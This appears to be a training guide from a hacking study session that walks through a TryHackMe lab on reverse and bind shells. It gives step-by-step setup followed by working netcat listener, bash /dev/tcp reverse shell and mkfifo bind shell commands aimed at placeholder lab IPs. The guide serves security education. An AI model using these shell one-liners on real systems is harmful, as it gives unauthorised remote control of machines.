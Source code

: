 # HackerFrogs AfterSchool Network Hacking Session 4
## Session Topic: Bind and Reverse Shells /w TryHackMe
# Challenge 1: TryHackMe Carnage Room
## TryHackMe Link
https://tryhackme.com/room/c2carnage
### YouTube Walkthrough Link
https://youtu.be/Aqc0F9i1T04?t=929
### Method of Solve
* Step 1: click on the Task 1 header
* Step 2: click on the green `Start Machine` button
* Step 3: go to the top of the webpage, and click on the "Start AttackBox" button located underneath the cloud icon with the santa hat on it
* Step 4: wait 2 minutes for the AttackBox to finish loading
* Step 5: at the top of the webpage, copy the IP address under the `Target IP Address`. You can click on the icon to the right of the IP address to copy it to your clipboard
* Step 6: click on the control bar located in the middle of the screen, then click on the clipboard button
* Step 7: in the AttackBox desktop, click on the terminal shortcut button to open a terminal
* Step 8: create two separate web browser windows, side by side, with the Carnage target machine on one side, and the AttackBox on the other side
* Step 9: In the AttackBox, use the following Netcat command to setup a listener
```
nc -nlvp 8888
```
There is not a listener on the AttackBox on port 8888
* Step 10: On the Carnage machine, use the following command to connect to the AttackBox machine
```
bash -i >& /dev/tcp/<ATTACKBOX_IP>/8888 0>&1
```
In the AttackBox terminal, we are now connected to the Carnage machine as the `ubuntu` user. The reverse shell connection has been established
* Step 11: In the AttackBox, use the following command to close the reverse shell connection
```
exit
```
* Step 12: In the Carnage machine, use the following Netcat command to setup a bind shell
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 8888 > /tmp/f
```
Now there's a listener on the Caranage machine's port 8888 which can receive incoming connections
* Step 13: In the AttackBox, use the following Netcat command to connect to the Carnage machine
```
nc <CARNAGE_IP> 8888
```
We are now connected to the Carnage machine on the AttackBox machine

